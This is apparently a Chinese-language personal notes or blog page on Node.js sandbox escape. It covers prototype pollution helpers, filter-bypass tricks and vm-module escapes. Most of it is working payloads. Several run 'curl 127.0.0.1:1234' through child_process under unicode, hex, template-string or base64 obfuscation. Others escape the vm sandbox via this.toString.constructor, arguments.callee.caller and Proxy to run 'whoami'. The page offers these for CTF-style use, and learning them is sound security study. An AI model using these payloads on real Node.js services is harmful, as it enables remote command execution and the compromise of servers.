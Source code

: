```yaml
---
title: nodejs
date: 2023-10-11 09:10:02
categories:
- 网络安全
tags:
- web 
- nodejs
description: |
    js太难了
---
```


## 沙箱逃逸

### 原型链污染

**! 过滤:`__proto__`：`constructor.prototype`**

常见函数是`merge()`,`clone()`,`copy()`

- merge()

  ```js
  function merge(target, source) {
      for (let key in source) {
          if (key in source && key in target) {
              merge(target[key], source[key])
          } else {
              target[key] = source[key]
          }
      }
  }
  ```

- copy()

  ```js
  function clone(obj) {
    return merge({}, obj);
  }
  
  ```

- clone()

  ```js
  function clone(obj) {
    return merge({}, obj);
  }
  ```

### 过滤

js过滤感觉挺简单的,太易变了

- unicode编码

  `require("child_process")["exe\u0063Sync"]("curl 127.0.0.1:1234")`

- toUpperCase() / toLowerCase()

  `'ı'.toUpperCase()='I'`，`'ſ'.toUpperCase()='S'`，`'K'.toLowerCase()='k'`

- 拼接

  `obj.contructor`：`obj["contr"+"uctor"]`

- concat

  `obj["constru".concat("ctor")]`

- emm

  `String.fromCharCode(xxx)`

- eval

  `this`：`eval("th"+"is")`

- 16进制编码

  `require("child_process")["exe\x63Sync"]("curl 127.0.0.1:1234")`

- 模版字符串

  `require('child_process')[`${`${`exe`}cSync`}`]('curl 127.0.0.1:1234')`

- base64编码

  ​`eval(**Buffer**.**from**('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZCgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJjdXJsIDEyNy4wLjAuMToxMjM0Iik=','base64').**toString**())`

- 过滤中括号

  假如中括号被过滤，可以用`Reflect.get`来绕

  `Reflect.get(global, Reflect.ownKeys(global).find(x=>x.includes('eva')))`

剩下两个凑一块看看

- Obejct.keys
  - 利用`Object.values`就可以拿到`child_process`中的各个函数方法，再通过数组下标就可以拿到`execSync`
  - `Object.values(require('child_process'))[5]('curl 127.0.0.1:1234')`

- Reflect
  - 在js中，需要使用`Reflect`这个关键字来实现反射调用函数的方式。譬如要得到`eval`函数，可以首先通过`Reflect.ownKeys(global)`拿到所有函数，然后`global[Reflect.ownKeys(global).find(x=>x.includes('eval'))]`即可得到eval
  - `console.log(global[Reflect.ownKeys(global).find(x=>x.includes('eval'))])` 这样就拿到eval了,如果过滤了`eval`关键字，可以用`includes('eva')`来搜索`eval`函数，也可以用`startswith('eva')`来搜索
  - `global[Reflect.ownKeys(global).find(x=>x.includes('eval'))]('global.process.mainModule.constructor._load("child_process").execSync("curl 127.0.0.1:1234")')`

### vm

#### this.tostring

```js
const vm = require('vm');
const script = `const process = this.toString.constructor('return process')() 
process.mainModule.require('child_process').execSync('whoami').toString()`;
const sandbox = { m: 1, n: 2 };
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res)
//第一行this.toString获取到一个函数对象，this.toString.constructor获取到函数对象的构造器（function）
//构造器中可以传入字符串类型的代码。然后在执行，即可获得process对象
```

#### **arguments.callee.caller**

- 不存在this和其他对象

  ```js
  const vm = require('vm');
  const script = `(() => {  
  const a = {}  
  a.toString = function () {    
  const cc = arguments.callee.caller;    
  const p = (cc.constructor.constructor('return process'))();   
  return p.mainModule.require('child_process').execSync('whoami').toString()  
  }
  return a })()`;
  const sandbox = Object.create(null);
  const context = new vm.createContext(sandbox);
  const res = vm.runInContext(script, context);
  console.log('Hello ' + res)
  //严格模式（"strict mode"）下会导致错误
  //arguments是在函数执行的时候存在的一个变量，我们可以通过arguments.callee.caller获得调用这个函数的调用者。
  ```

  触发条件在于console.log('Hello ' + res) 也就是字符串触发

- 没有字符串相关操作,可以使用Proxy来劫持所有属性

  ```js
  const vm = require('vm');
  const script = `(() => {  
  const a = new Proxy({}, { 
  get: function() {      
  const cc = arguments.callee.caller;      
  const p = (cc.constructor.constructor('return process'))();     
  return p.mainModule.require('child_process').execSync('whoami').toString()
  }  
  })
  return a })()`;
  const sandbox = Object.create(null);
  const context = new vm.createContext(sandbox);
  const res = vm.runInContext(script, context);
  console.log(res.xxx)
  
  只要沙箱外获取了属性,就能触发get方法,就能执行命令
  ```

- ```js
  vm = require('vm');
  const code5 = `
      throw new Proxy({}, {
      get :function(){
      const cc =  arguments.callee.caller;
      const p = (cc.constructor.constructor('return process'))();
      return p.mainModule.require('child_process').execSync('whoami').toString()
  }
  })
  `
  try {
      vm.runInContext(code5, vm.createContext(Object.create(null)));
  }catch(e){
      console.log('error happend: ' + e);
  }
  借助异常 把我们沙箱内的对象抛出去 如果外部有捕捉异常的 如日志,逻辑 则也可能触发漏洞
  ```
  